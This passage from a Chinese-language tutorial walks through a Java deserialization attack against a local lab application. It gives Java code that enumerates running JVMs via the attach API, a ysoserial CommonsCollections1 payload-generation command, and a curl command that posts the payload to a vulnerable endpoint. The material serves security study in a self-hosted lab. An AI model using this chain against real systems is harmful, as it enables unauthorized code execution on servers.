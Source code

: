 注意上面的name.contains("org.example.demospring.DemoSpringApplication")我们需要找到对应的jvm才可以（这里激素我们前面运行起来的靶场环境）：

可以用这个进行遍历查找：

```java
public class TestAgentMain {

    public static void main(String[] args) {
        try{
            java.io.File toolsPath = new java.io.File(System.getProperty("java.home").replace("jre","lib") + java.io.File.separator + "tools.jar");
            System.out.println(toolsPath.toURI().toURL());
            java.net.URL url = toolsPath.toURI().toURL();
            java.net.URLClassLoader classLoader = new java.net.URLClassLoader(new java.net.URL[]{url});
            Class<?> MyVirtualMachine = classLoader.loadClass("com.sun.tools.attach.VirtualMachine");
            Class<?> MyVirtualMachineDescriptor = classLoader.loadClass("com.sun.tools.attach.VirtualMachineDescriptor");
            java.lang.reflect.Method listMethod = MyVirtualMachine.getDeclaredMethod("list",null);
            java.util.List<Object> list = (java.util.List<Object>) listMethod.invoke(MyVirtualMachine,null);

            System.out.println("Running JVM Start..");
            for(int i=0;i<list.size();i++){
                Object o = list.get(i);
                java.lang.reflect.Method displayName = MyVirtualMachineDescriptor.getDeclaredMethod("displayName",null);
                String name = (String) displayName.invoke(o,null);
                System.out.println(name);

            }
        } catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

![截图](8a23987f762b1c7d473206b9530fae35.png)

然后，这里我们的靶场需要利用反序列化进行注入。我们利用之前修改过的 ysoserial 来快速生成反序列化 payload，地址：https://github.com/KpLi0rn/ysoserial

将上面的代码保存下来，然后在 codefile: 后指定路径即可快速生成：

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections1 codefile:./TestAgentMain1.java > cc11demo.ser
```

然后我们利用curl将序列化后的内容打入：

```
curl -v "http://127.0.0.1:8080/vuln" --data-binary "@./cc11demo.ser"
```

